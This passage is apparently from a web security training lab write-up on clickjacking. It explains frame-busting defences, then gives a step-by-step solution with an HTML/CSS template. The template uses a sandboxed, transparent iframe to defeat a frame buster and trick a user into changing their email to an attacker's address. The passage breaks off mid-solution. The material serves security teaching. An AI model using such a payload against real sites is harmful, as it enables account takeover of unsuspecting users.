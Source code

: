 ## Frame busting scripts
Clickjacking attacks are possible whenever websites can be framed. Therefore, preventative techniques are based upon restricting the framing capability for websites. A common client-side protection enacted through the web browser is to use frame busting or frame breaking scripts. These can be implemented via proprietary browser JavaScript add-ons or extensions such as NoScript. Scripts are often crafted so that they perform some or all of the following behaviors:

- check and enforce that the current application window is the main or top window,
- make all frames visible,
- prevent clicking on invisible frames,
- intercept and flag potential clickjacking attacks to the user.

Frame busting techniques are often browser and platform specific and because of the flexibility of HTML they can usually be circumvented by attackers. As frame busters are JavaScript then the browser's security settings may prevent their operation or indeed the browser might not even support JavaScript. An effective attacker workaround against frame busters is to use the HTML5 iframe *sandbox* attribute. When this is set with the *allow-forms* or *allow-scripts* values and the *allow-top-navigation* value is omitted then the frame buster script can be neutralized as the iframe cannot check whether or not it is the top window:

```<iframe id="victim_website" src="https://victim-website.com" sandbox="allow-forms"></iframe>```

Both the *allow-forms* and *allow-scripts* values permit the specified actions within the iframe but top-level navigation is disabled. This inhibits frame busting behaviors while allowing functionality within the targeted site.

### Clickjacking with a frame buster script

This lab is protected by a frame buster which prevents the website from being framed. Can you get around the frame buster and conduct a clickjacking attack that changes the users email address?

To solve the lab, craft some HTML that frames the account page and fools the user into changing their email address by clicking on "Click me". The lab is solved when the email address is changed.

**Solution:**
1. Log in to the account on the target website.
2. Go to the exploit server and paste the following HTML template into the "Body" section:
    ```
    <style>
        iframe {
            position:relative;
            width:$width_value;
            height: $height_value;
            opacity: $opacity;
            z-index: 2;
        }
        div {
            position:absolute;
            top:$top_value;
            left:$side_value;
            z-index: 1;
        }
    </style>
    <div>Test me</div>
    <iframe sandbox="allow-forms"
    src="YOUR-LAB-ID.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
    ```
3. Make the following adjustments to the template:
   - Replace *YOUR-LAB-ID* in the iframe *src* attribute with your unique lab ID so that the URL of the target website's user account page, which contains the "Update email" form.
   - Substitute suitable pixel values for the $height_value and $width_value variables of the iframe (we suggest 700px and 500px respectively).
```